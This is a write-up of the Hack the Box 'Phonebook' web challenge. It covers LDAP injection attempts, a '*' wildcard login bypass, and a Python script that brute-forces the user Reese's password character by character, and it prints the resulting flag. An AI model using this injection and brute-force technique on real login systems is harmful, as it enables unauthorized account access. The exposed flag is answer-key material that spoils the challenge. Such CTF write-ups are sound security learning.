




# Writeup "Phonebook"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                 </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/phonebook              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-phonebook-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/__                                                 </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                         </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-02                                                   </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-09-09                                                   </td></tr>
</table>

## Description

> Who is lucky enough to be included in the phonebook?

## Solution

The specified URL displays a login screen including a message by someone called "Reese": 

<p align="center">
   
</p>

When we try to open the directory containing the included image, we discover a second page with a search field. The search field sends a POST request to the `/search` endpoint but we always receive a `403 Forbidden` response.

<p align="center">
   
</p>

When we login, the website sends a POST request to the `/login` endpoint. Since we don't know the correct credentials, we are redirected to the original page with the additional parameter `message=Authentication failed`. This message is then displayed on the login page:

<p align="center">
   
</p>

This means that there is a _cross site scripting_ (_"XSS"_) vulnerability on this page. Since the payload is inserted into the website using the `innerHTML` attribute, we cannot use a `<script>` tag. But we can use the following code to trigger the XSS without user interaction:

``` html

```

<p align="center">
   
</p>

After some testing however, this does not seem to help us so we look for a different approach. After reading several comments in the official discussion thread, we decide to try an injection attack in the login fields. Exploits for SQL or PHP like `Reese' #` or `Reese'; //` do not work; according to some comments, the technology behind the login seems to be LDAP. But LDAP injection strings like `Reese)(&)` only lead to a `500 Internal Server Error` response. At least, this seems to confirm that LDAP is used.

Since at this point we are stuck, we do a web search for writeups of the challenge[^1][^2]. This leads us to a frustratingly easy solution for this first step: Just use "`*`" for both username and password. This leads us to the same search page we discovered earlier, but this time we are authenticated and we can use the search function.

We are now able to search through the user database; however, this does not reveal any hints regarding the flag. Turning back to the writeups, we learn that the solution is to find the password of the user `Reese` through a bruteforce attack. This is made possible by the fact that we can use the wildcard character "`*`" for any part of the password. Therefore, we can guess one letter at a time. Flags at HTB always have the same pattern, so we try to log in using "`HTB{*}`" as password, which is successful. Using the following _Python_ script, we can iterate through all possible passwords:

``` python
import requests
import string

challenge_url = "http://139.59.174.34:31321"
login_endpoint = "/login"

def testPassword(password: str) -> bool:
   password = "HTB{" + password + "}"
   payload = {'username': 'reese', 'password': password}

   response = requests.post(url=challenge_url+login_endpoint, data=payload)
   url = response.url

   return (url.find("failed") < 0)

def main():
   chars = string.ascii_letters + string.digits + "_?!"
   password = ""
   char_index = 0
   
   while char_index < len(chars):
      if testPassword(password + chars[char_index] + "*"):
         password += chars[char_index]
         char_index = 0
         print("Scanning... ", password)
      else:
         char_index += 1
   
   print("Flag found!")

if __name__ == '__main__':
   main()
```

This results in the following console output:

``` bash
$ python3 exploit.py
Scanning... d
Scanning... d1
Scanning... d1r
Scanning... d1re
Scanning... d1rec
Scanning... d1rect
Scanning... d1recto
Scanning... d1rector
Scanning... d1rectory
Scanning... d1rectory_
Scanning... d1rectory_h
Scanning... d1rectory_h4
Scanning... d1rectory_h4x
Scanning... d1rectory_h4xx
Scanning... d1rectory_h4xx0
Scanning... d1rectory_h4xx0r
Scanning... d1rectory_h4xx0r_
Scanning... d1rectory_h4xx0r_i
Scanning... d1rectory_h4xx0r_is
Scanning... d1rectory_h4xx0r_is_
Scanning... d1rectory_h4xx0r_is_k
Scanning... d1rectory_h4xx0r_is_k0
Scanning... d1rectory_h4xx0r_is_k00
Scanning... d1rectory_h4xx0r_is_k00l
Flag found!
```

Therefore, the flag is:

```
HTB{d1rectory_h4xx0r_is_k00l}
```

### Sources

[^1]: https://skelter.hashnode.dev/htb-phonebook-writeup
[^2]: https://shakuganz.com/2021/07/04/hackthebox-phonebook-write-up/
[^3]: 
